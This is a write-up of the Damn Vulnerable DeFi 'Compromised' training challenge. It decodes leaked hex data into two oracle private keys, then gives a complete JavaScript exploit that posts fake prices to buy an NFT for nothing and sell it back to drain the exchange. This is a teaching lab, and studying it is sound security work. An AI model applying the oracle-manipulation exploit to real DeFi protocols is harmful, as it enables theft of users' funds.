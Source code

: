 ```yaml
---
layout: post
date:   2022-08-21 12:59:00 -0500
categories: DeFi flashloan Oracle
title: Damn Vulnerable DeFi - Compromised
---
```


# [Compromised](https://www.damnvulnerabledefi.xyz/challenges/7.html)

## Analysis

Challenge snippet seems to contain hex characters:

```txt
4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35 

4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34  
```

Which seem to be base64...

```sh
$ echo -n "4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35" | xxd -r -p | base64 -d

0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9

$ echo -n "4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34" | xxd -r -p | base64 -d

0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
```

### Theories

- These may be x,y coordinates of a public key.

   ```
   0x04c678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
   ```
   Prefix of 0x04 because Ethereum uses uncompressed public keys:

   Resource: [https://www.oreilly.com/library/view/mastering-ethereum/9781491971932/ch04.html](https://www.oreilly.com/library/view/mastering-ethereum/9781491971932/ch04.html)

   - Computing an address Keccak-256(publickey) omitting the 0x04 prefix

   ```
   02440a7ee8a39494dddaced5b0a415e392e62702a4e3a275602f392f82be285f
   ```
   Suffix 20bytes

   ```
   0xb0a415e392e62702a4e3a275602f392f82be285f
   ```

   A public key is useless since it is "public"

-  These could be  private keys: [https://consensys.github.io/smart-contract-best-practices/attacks/oracle-manipulation/#centralized-oracles-and-trust](https://consensys.github.io/smart-contract-best-practices/attacks/oracle-manipulation/#centralized-oracles-and-trust).

    Private keys are 32bytes in length.

    Need to compute the matching public key and hence address to see which oracle(s) were compromised.

    ```py
    import ecdsa, codecs
    # pycryptodome
    from Crypto.Hash import keccak

    >>> unknown_data1 = "c678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9"
    >>> unknown_data2 = "208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48"
    >>> def getPublicKeyFromPrivateECDSA(privkey_hex):
    ...    privkey_as_bytes = codecs.decode(privkey_hex, 'hex')
    ...    pubkey_as_signing = ecdsa.SigningKey.from_string(privkey_as_bytes, curve=ecdsa.SECP256k1).verifying_key
    ...    pubkey_as_bytes = pubkey_as_signing.to_string()
    ...    pubkey_hex = codecs.encode(pubkey_as_bytes, 'hex')
    ...    return pubkey_hex
    ...
    >>> getPublicKeyFromPrivateECDSA(unknown_data1)
    b'5c1b119edd97e67393409f959f810ccbf82690c7d86f88a8cf5b748011400b6c9cc17f448703c3ee30a5d0dedc1b078519ad14221f57aa517d671812d00159fd'
    >>> getPublicKeyFromPrivateECDSA(unknown_data2)
    b'555945b73af0ba039e1ab1b9f02f2840573364318219f14436dbd5f753cd8ba33cb1ecb4ec13ccb42258e845318f3905777a4be2ee8b7d979b3685b90fc51ed4'
    >>> import keccak
    >>> def getAddrFromPubKey(pubkey_hex):
    ...     pubkey_as_bytes = codecs.decode(pubkey_hex, 'hex')
    ...     keccak_hash = keccak.new(digest_bits=256)
    ...     keccak_hash.update(pubkey_as_bytes)
    ...     keccak_digest = keccak_hash.hexdigest()
    ...     return '0x'+ keccak_digest[-40:]
    ...
    >>> getAddrFromPubKey(pubkey_1)
    '0xe92401a4d3af5e446d93d11eec806b1462b39d15'
    >>> getAddrFromPubKey(pubkey_2)
    '0x81a5d6e50c214044be44ca0cb057fe119097850c'
    ```

    These addresses match the address of the sources!

    Turns out you can do these computations with library functions from web3.js or ethers.js but I preferred learning the crypto involved.

- `Exchange.sol`

    Allows a user with sufficient balance to buy the DVNFT token and allows a user to buy the token if the Exchange has enough funds.

    The price is determined by median computation from the provided oracles

    A user can sell a token TO the Exchange using the `sellOne` routine, the Exchange pays the user the `currentPriceInWei`

    A user can buy a token FROM the Exchange using the `buyOne` routine, the user pays the exchange `currentPriceInWei`

- `TrustfulOracleInitializer.sol`

    initializes the oracles with initial prices by invoking `setupInitialPrices`

- `TrustfulOracle.sol`

    Assigns some useful roles like `TRUSTED_SOURCE_ROLE` for the on-chain sources and `INITIALIZER_ROLE` for the initializer contract. The latter role is useful once after which it is stripped.

    Trusted sources can set new price for the token using the `postPrice` routine

Money leaves the exchange when `sellOne` is invoked. An idea is to manipulate the oracle price. Buy it cheaper, sell it very expensive. Reset the price.

## Problem

Leaked private keys of oracles can be used to manipulate the exchange by manipulating prices reported by the oracles


## Exploit

- compromised.challengee.js
```js
...
    it('Exploit', async function () {        
        /** CODE YOUR EXPLOIT HERE */
        // initialize source wallets from private keys
        var source2_private_key = "0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9";

        var source3_private_key = "0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48";

        var source2_wallet = new ethers.Wallet(source2_private_key, ethers.provider);

        var source3_wallet = new ethers.Wallet(source3_private_key, ethers.provider);

        // manipulate the Oracles make it cost too little
        await this.oracle.connect(source2_wallet).postPrice(this.nftToken.symbol(), ethers.utils.parseEther('0.0'));
        await this.oracle.connect(source3_wallet).postPrice(this.nftToken.symbol(), ethers.utils.parseEther('0.0'));

        // Attacker is too broke, give it 2ETH
        await source2_wallet.sendTransaction({
            to: attacker.address,
            value: utils.parseEther("1.0")
        });
        await source3_wallet.sendTransaction({
            to: attacker.address,
            value: utils.parseEther("1.0")
        });

        // BuyOne as attacker
        const options = {value: ethers.utils.parseEther("0.1")};
        var tx = await this.exchange.connect(attacker).buyOne(options);
        var receipt = await tx.wait()
        //var tokenId, by, price;
        for (const event of receipt.events) {
            if (event.event == "TokenBought"){
                var {by,tokenId,price} = event.args;
            }
          }


        // manipulate the Oracles make it cost everything
        // including what was paid to buyone
        await this.oracle.connect(source2_wallet).postPrice(this.nftToken.symbol(), ethers.utils.parseEther('9990'));
        await this.oracle.connect(source3_wallet).postPrice(this.nftToken.symbol(), ethers.utils.parseEther('9990'));

        // SellOne as attacker
        await this.nftToken.connect(attacker).approve(this.exchange.address, tokenId);
        var tx = await this.exchange.connect(attacker).sellOne(tokenId);

        // manipulate the Oracles make it original everything
        await this.oracle.connect(source2_wallet).postPrice(this.nftToken.symbol(), ethers.utils.parseEther('999'));
        await this.oracle.connect(source3_wallet).postPrice(this.nftToken.symbol(), ethers.utils.parseEther('999'));

    });
...
```

## Explanation

1. Attacker needs to afford one tokens with <=0.1 ETH.
2. Attacker needs to sell the token to the exchange for 9990 ETH.
3. Attacker uses compromised accounts to get more ETH.
3. Attacker manipulates the prices by using the compromised source accounts to `postPrice` such that the calculated median token cost is favourable to the attacker e.g 0 to buy and 9990 to sell
4. The attacker resets the price in the end.